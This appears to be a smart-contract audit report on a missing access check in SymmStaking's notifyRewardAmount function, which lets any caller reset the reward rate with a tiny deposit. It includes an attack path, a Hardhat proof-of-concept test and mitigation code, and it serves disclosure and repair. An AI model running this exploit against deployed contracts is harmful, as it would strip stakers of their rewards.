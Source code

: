 Virtual Heather Guppy

High

# Any Users Can Manipulate Reward Distribution in SymmStaking to wipe out rewards

### Summary

A missing access control check in the notifyRewardAmount function allows any user to add rewards to the staking contract, which can manipulate the reward rate calculation and lead to incorrect reward distributions for stakers.

### Root Cause

In `SymmStaking.sol`, the `notifyRewardAmount` function lacks proper access control checks. While the `configureRewardToken` function correctly restricts access to users with the `REWARD_MANAGER_ROLE`, the `notifyRewardAmount` function does not have the same restriction, allowing any user to call it and add rewards as long as the token is already configured.

The main issue being that when `_addRewardsForToken` is called from `notifyRewardAmount` the reward state rate is set to Zero due to `(amount + leftover) / state.duration` rounding down to zero when amount is very small.

relevant code:
https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L275-L288C1

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L366-L379

### Internal Pre-conditions

1. Admin needs to call `configureRewardToken` to set a token (e.g., USDT) as an approved reward token
2. At least one user needs to have staked tokens in the contract
3. Admin needs to have called `notifyRewardAmount` at least once to set up the initial reward distribution

### External Pre-conditions

1. An attacker needs to have a small amount of the configured reward token (even 1 wei is sufficient)

### Attack Path

1. Admin configures USDT as a reward token and notifies a large reward amount (e.g., 604,800 tokens) to be distributed over a period (e.g., 7 days)
2. The contract calculates the reward rate as rewardAmount / duration (604,800 / 604,800 = 1 token per second)
3. After some time passes, an attacker approves a small amount (e.g., 1 token) of USDT to the staking contract
4. The attacker calls notifyRewardAmount with this small amount
5. The contract recalculates the reward rate by adding the remaining rewards to the new amount and dividing by the duration and this can round down to Zero.
6. This manipulation can significantly alter the reward rate, especially if done near the beginning of a reward period
7. When users claim rewards, they receive incorrect amounts based on the manipulated rate

### Impact

The staking protocol suffers from incorrect reward distributions. Depending on when the attack is executed, users may receive fewer rewards than intended. This can lead to:

1.  Loss of rewards for legitimate stakers
2.  Potential drain of excess rewards to attackers
3.  Undermining the tokenomics and incentive structure of the protocol
4.  The severity is high as it directly impacts the economic model of the staking system and can lead to financial losses for the protocol and its users.

### PoC

```Typescript
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers"
import { loadFixture, time } from "@nomicfoundation/hardhat-network-helpers"
import { expect } from "chai"
import { ethers } from "hardhat"
import { ERC20, Symmio, SymmStaking } from "../typechain-types"
import { e } from "../utils"
import { initializeFixture, RunContext } from "./Initialize.fixture"

export function shouldBehaveLikePocs() {
	let context: RunContext
	let symmStaking: SymmStaking
	let stakingToken: Symmio
	let user1: SignerWithAddress
	let user2: SignerWithAddress
	let admin: SignerWithAddress
	let usdtToken: ERC20
	let usdcToken: ERC20

	beforeEach(async function () {
		context = await loadFixture(initializeFixture)
		symmStaking = context.symmStaking
		admin = context.signers.admin
		user1 = context.signers.user1
		user2 = context.signers.user2
		stakingToken = context.symmioToken

		// 1. Mint initial balance of 100 SYMM (staking token) to user1, user2, and admin
		let initialBalance: bigint = e("100")
		await stakingToken.connect(admin).mint(user1.address, initialBalance)
		await stakingToken.connect(admin).mint(user2.address, initialBalance)
		await stakingToken.connect(admin).mint(admin.address, initialBalance)

		// 2. Deploy USDT (ERC20) and USDC (ERC20) tokens
		const ERC20 = await ethers.getContractFactory("MockERC20")

		// USDT Token
		usdtToken = await ERC20.connect(admin).deploy("USDT", "USDT")
		await usdtToken.waitForDeployment()

		// USDC Token
		usdcToken = await ERC20.deploy("USDC", "USDC")
		await usdcToken.waitForDeployment()
	})

	describe.only("POCs", function () {
		it.only("should reward users correctly POC", async function () {
			// Give user2 some USDT
			await usdtToken.connect(admin).transfer(user2.address, 1)

			const depositAmount = "604800" // user1 deposits 604,800 SYMM
			const rewardAmount = "604800" // Total reward for 7 days

			// user1 deposits tokens
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user1).deposit(depositAmount, user1.address)

			// Admin configures and notifies rewards
			await usdtToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
			await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount])

			// Fast forward time to accumulate some rewards
			await time.increase(100)

			// Malicious user calls notifyRewardAmount adding 1 USDT to the reward pool
			await usdtToken.connect(user2).approve(await symmStaking.getAddress(), rewardAmount)
			await symmStaking.connect(user2).notifyRewardAmount([await usdtToken.getAddress()], [1])

			// Fast forward time to the end of the reward period
			await time.increase(604700)

			// User 1 claims rewards at the end of the period
			const user1BalanceBefore = await usdtToken.balanceOf(user1.address)
			await symmStaking.connect(user1).claimRewards()
			const user1BalanceAfter = await usdtToken.balanceOf(user1.address)

			// The claimed rewards should be 604800 tokens (604800 seconds * 1 token/sec)
			expect(user1BalanceAfter - user1BalanceBefore).to.equal("604800") // @audit actual reward 100
		})
	})
}

```

### How to run the POC
Create a new file pocs.behaviour.ts in the test directory and copy the above POC into that file.  In tests/main.ts import the file `import { shouldBehaveLikePocs } from "./pocs.behaviour"` and add the following code snippet to the `Static Test::Symm token` scenario.

```Typescript
describe("POCs", async function () {
	shouldBehaveLikePocs()
})
```

### Mitigation

1.

Add proper access control to the `notifyRewardAmount` function by requiring the caller to have the `REWARD_MANAGER_ROLE`:

```Solidity
function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts) external nonReentrant {
    require(tokens.length == amounts.length, "SymmStaking: tokens and amounts length mismatch");
    
    // Add this line to enforce access control
    require(hasRole(REWARD_MANAGER_ROLE, _msgSender()), "SymmStaking: must have reward manager role to notify reward");
    
    for (uint256 i = 0; i < tokens.length; ) {
        address token = tokens[i];
        uint256 amount = amounts[i];
        
        require(rewardTokens.contains(token), "SymmStaking: token not configured");
        
        IERC20(token).safeTransferFrom(_msgSender(), address(this), amount);
        pendingRewards[token] += amount;
        
        _addRewardsForToken(token, amount);
        
        emit RewardAdded(token, amount);
        
        unchecked {
            ++i;
        }
    }
}
```

2.  ensure `(amount + leftover) > state.duartion` 